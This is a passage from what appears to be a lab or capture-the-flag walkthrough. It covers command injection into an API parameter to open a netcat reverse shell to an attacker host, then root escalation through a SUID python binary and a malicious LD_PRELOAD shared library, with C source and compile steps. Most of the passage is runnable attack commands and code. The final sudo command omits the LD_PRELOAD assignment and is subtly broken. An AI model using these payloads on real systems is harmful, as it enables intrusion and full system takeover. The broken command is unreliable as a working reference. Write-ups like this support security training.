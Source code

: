 This should output hello to the website. If this works we can then do
~~~
nc -lvnp 4444
172.16.199.113:5000/api/v1/connection?ip=bciejfnve || nc (attacker ip) 4444 -e /bin/bash

If you need a more stable shell for some reason, run:
python3 -c 'import pty;pty.spawn("/bin/bash")'
~~~

With this, you have a clean reverse shell on some user. I forgot who.

### Python SUID
Anyways, if you use linpeas again, you will see another highlighed suid for the python binary. With this you can priv esc by doing:
~~~bash
#change the python version as necessary. Everything else is the same. 
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash");'
~~~

### ld_preload
If we do "sudo -l" to check our sudo permissions, we will see "env_keep+=LD_PRELOAD" and some other sudo permissions like:

(ALL) NOPASSWD: /usr/sbin/ufw
(ALL) NOPASSWD: /opt/server_status.sh
(SETENV) NOPASSWD: /usr/sbin/ufw
(SETENV) NOPASSWD: /opt/server_status.sh

As long as you have sudo access to a commond OR script where we can set the environment variable of, you can escalate your privileges.

Add this code to a file called exploit.c file: (the file name can be anything)
~~~
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

void _init() {
    	unsetenv("LD_PRELOAD");
    	setuid(0);
    	setgid(0);
    	system("/bin/bash -p");
    	}
~~~

Compile the code by doing:
~~~
gcc -fPIC -shared -nostartfiles -o exploit.so exploit.c
~~~

Upload the file to the victim computer and run:
~~~bash
sudo exploit.so /opt/server_status.sh
~~~

And you should have root. 
